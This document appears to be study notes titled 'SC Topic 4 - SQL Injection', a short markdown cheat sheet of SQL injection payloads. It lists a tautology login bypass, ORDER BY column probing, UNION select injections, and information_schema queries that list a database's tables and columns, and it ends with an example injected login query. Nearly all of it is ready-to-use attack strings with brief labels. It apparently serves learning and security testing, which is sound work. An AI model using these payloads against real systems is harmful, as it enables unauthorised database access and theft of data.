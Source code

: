 # SC Topic 4 - SQL Injection

###### tags: #SC 

## Table of Contents
```toc
```
## SQL Injection Cheat Sheet
- Basic SQL Injection
```
1' or 1=1; -- -  
```
- ORDER BY Attack
```
1' order by 1; -- -
```
- UNION Attack
```
1' union select null; -- -
```
- `information_schema` Attacks (Use fillers to match number of columns in table)
```
1' union select 1,2,table_schema from information_schema.tables;-- - 
1' union select 1,table_name,table_schema from information_schema.tables; -- - 
1' union select 1,column_name,table_schema from information_schema.columns where table_name='tablename'; -- - 
```

```sql
select * from users where username = '' or '1'='1' or '=' and password = '
```